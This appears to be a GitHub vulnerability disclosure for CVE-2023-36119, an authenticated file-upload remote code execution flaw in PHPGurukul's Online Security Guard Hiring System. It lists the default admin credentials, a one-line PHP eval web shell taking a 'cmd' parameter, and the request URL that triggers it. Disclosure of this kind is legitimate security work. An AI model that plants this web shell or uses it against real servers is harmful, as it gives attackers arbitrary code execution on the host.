 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)
+ CVE ID: CVE-2023-36119
+ CVSS v3.1 `AV:A/AC:H/PR:H/UI:R/S:C/C:H/I:H/A:H/E:F/RL:W/RC:R/CR:H/IR:H/AR:M/MAV:A/MAC:L/MPR:H/MUI:R/MS:U/MC:H/MI:H/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/74a83faa-d76f-4bf1-9e6d-43dd6ea9d612)


**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/2e775a08-950c-46fa-adb3-42d1cd96c90f)

## POC

https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/aa1de286-20ad-422d-a564-cb2f984af26b

